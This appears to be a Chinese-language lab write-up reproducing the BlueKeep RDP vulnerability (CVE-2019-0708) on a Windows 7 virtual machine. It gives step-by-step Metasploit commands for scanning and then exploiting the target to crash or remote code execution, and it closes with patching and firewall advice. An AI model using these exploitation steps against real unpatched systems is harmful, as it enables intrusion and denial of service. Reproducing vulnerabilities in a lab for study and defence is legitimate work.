

漏洞介绍：通过利用远程桌面的3389端口，RDP协议进行攻击，从而导致机器蓝屏瘫痪。该漏洞的触发无需任何用户交互操作，这就意味着，存在漏洞的计算机只要联网，无需任何操作，就有可能遭遇黑客远程攻击，运行恶意代码等，极具破坏性！
影响版本
该漏洞影响旧版本的Windows系统，包括：
Windows 7、Windows Server 2008 R2、Windows Server 2008、Windows 2003、Windows XP。
Windows 8和Windows 10及之后版本不受此漏洞影响。
漏洞复现
(本次采用kali和win7虚拟机实验，不再介绍该系统的安装，可以到网上自行查找)
一.确认漏洞存在
1.关闭win7的防火墙，打开win7的远程连接：
2.查看win7的ip：
1 | ipconfig |
我这里是192.168.130.133
3.进入kali，使用msf工具：
1 | msfconsole |
4.搜索编号0708漏洞：
1 | search 0708 |
序号0模块用于验证某目标是否存在该漏洞；序号3模块用于复现该漏洞。
5.复制序号0的模块名称，输入命令：
1 | use auxiliary/scanner/rdp/cve_2019_0708_bluekeep |
查看模块选项：
1 | show options |
可以看到目标端口(rport)是3389；
6.设置目标主机ip：
1 | set rhosts 192.168.130.133 |

7.执行scan，确认该win7系统存在该漏洞：
二.蓝屏/RCE
依次执行下面的命令：
1 | use exploit/windows/rdp/cve_2019_0708_bluekeep_rce |
但是并没有成功rce，却导致了win7的蓝屏
我们重新输入上面的命令，但把target 5改成target 2（有virtualbox 6的这个)
1 | target 2 |
最后成功rce
修复建议
- 关闭3389，或者在防火墙中设置白名单
- 禁止3389远程端口，只允许自己的ip进行通信
- 关闭远程桌面服务
- 使用官方补丁进行修补